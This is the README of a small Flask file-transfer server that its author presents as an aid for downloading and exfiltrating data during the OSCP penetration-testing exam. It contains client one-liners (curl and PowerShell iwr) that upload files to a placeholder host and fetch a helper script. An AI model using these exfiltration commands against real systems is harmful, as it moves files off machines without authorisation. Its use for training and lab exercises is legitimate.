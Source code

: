# multi_server

**Warning : This app is designed to help during the OSCP to download/exfiltrate datas. Not to be run in production.**

Tested on : Python 3.9

A simple server in Flask to download/upload files.

## Server Setup

### Binaries

For example on Windows, you can download the latest version :

    PS > iwr -uri https://github.com/adann0/multi_server/releases/download/v0.0.1/multi_server.exe -outfile multi_server.exe
 
Then you can run the Server :

    PS > .\multi_server.exe <port>

After that you can access the webapp at `http://<ip>:<port>`.

### Python Module

	$ python3 -m venv venv
	$ source venv/bin/activate
	$ pip install git+https://github.com/adann0/multi_server.git

You can then run the Server :

	$ python3 -m multi_server <port>

After that you can access the webapp at `http://<ip>:<port>`.

## Client Usage

You can download the files in the current folder where the Server is running, for example on a Windows Client :

    PS > iwr -uri http://<ip>:<port>/<file> -outfile <file>

You can also upload your files, on a Linux Client :

    $ curl -X POST -F "file=@<file_path>" http://<ip>:<port>/upload

Or with Powershell :

    PS > iwr -uri https://raw.githubusercontent.com/adann0/multi_server/main/upload.ps1 -outfile upload.ps1
    PS > .\upload.ps1 -ip <ip> [-port <port>] -file <file_path> 

The uploaded files are in **uploads/** on the Server.

## Recompile Binaries

	$ pyinstaller --add-data multi_server/templates:templates --name multi_server --onefile --clean multi_server/__main__.py

## Source

- https://www.geeksforgeeks.org/how-to-upload-file-in-python-flask/
